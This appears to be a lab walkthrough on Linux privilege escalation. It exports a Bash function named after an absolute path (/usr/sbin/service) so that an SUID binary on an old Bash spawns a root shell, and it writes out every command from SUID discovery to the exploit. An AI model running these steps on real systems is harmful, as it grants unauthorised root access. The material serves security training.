




Abusing Shell Features (define user functions)
Prerequisite:
◇ Bash version lower than 4.2-048
• In some shells (notably Bash <4.2-048) it is possible to define user functions with an absolute path name.
• These functions can be exported so that subprocesses have access to them, and the functions can take precedence over the actual executable being called.
1. manually locate files with the SUID or SGID bits set:
target@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

2. Run strings on the SUID file:
target@debian:~$ strings /usr/local/bin/suid-env2

This time the service run with an absolute path
3. We can verify this
◇ with strace:
target@debian:~$ strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service

◇ with ltrace:
target@debian:~$ ltrace /usr/local/bin/suid-env2 2>&1 | grep service

This reveals that the system function is being used to execute the /usr/local/bin/suid-env2 service program
4. Verify the version of Bash is lower than 4.2-048:
target@debian:~$ bash --version

5. Create a Bash function with the name “/usr/sbin/service” and export the function.
"Exporting" a function using export -f creates an environment variable with the function body
target@debian:~$ function /usr/sbin/service { /bin/bash -p; } #new bash function called /usr/sbin/service
target@debian:~$ export –f /usr/sbin/service
Note: export -f → the -f must be used if the names refer to functions. If -f is not used, the export will assume the names are variables.
6. Execute the SUID file for a root shell.
The function created at point 5 take precedence over the actual executable being called
target@debian:~$ /usr/local/bin/suid-env2
